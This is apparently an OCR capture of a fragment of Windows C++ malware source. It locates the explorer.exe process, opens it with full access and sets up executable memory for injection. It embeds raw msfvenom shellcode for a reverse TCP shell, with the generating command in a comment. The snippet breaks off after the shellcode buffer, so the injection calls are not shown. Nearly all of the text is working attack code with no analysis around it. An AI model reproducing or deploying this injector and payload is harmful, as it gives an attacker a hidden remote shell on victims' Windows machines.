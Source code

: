 ```

    HANDLE allProcesses;
    allProcesses = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);

    if (Process32First(allProcesses, &procEntry) == TRUE) {
        while (Process32Next(allProcesses, &procEntry) == TRUE) {
            wchar_t newtargetProcName[1024] = L"explorer.exe";

            if (wcscmp(procEntry.szExeFile, newtargetProcName) == 0) {
                cout << "Process ID Found! PID: " << procEntry.th32ProcessID << "\n";
                ProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, procEntry.th32ProcessID);
                return ProcessHandle;
            }

        }

    }

}

int main()
{
    HANDLE hProcess;
    SIZE_T dwSize = 461;
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr;
    SIZE_T bytesOut;
    hProcess = GetProcesHandleName();

 // msfvenom -p windows/x64/shell_reverse_tcp LHOST=xx.xx.xx.xx LPORT=1337 -f c
    unsigned char buf[] =
        "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
        "\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
        "\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
        "\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
        "\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
        "\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
        "\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
        "\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
        "\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
        "\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
        "\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
        "\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
        "\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
        "\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
        "\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
        "\x49\x89\xe5\x49\xbc\x02\x00\x05\x39\x23\xaa\xf5\x3e\x41\x54"
        "\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
        "\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
        "\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
        "\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
        "\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
        "\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
        "\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
        "\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
        "\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
        "\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
        "\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
        "\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
        "\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
        "\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
        "\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";
```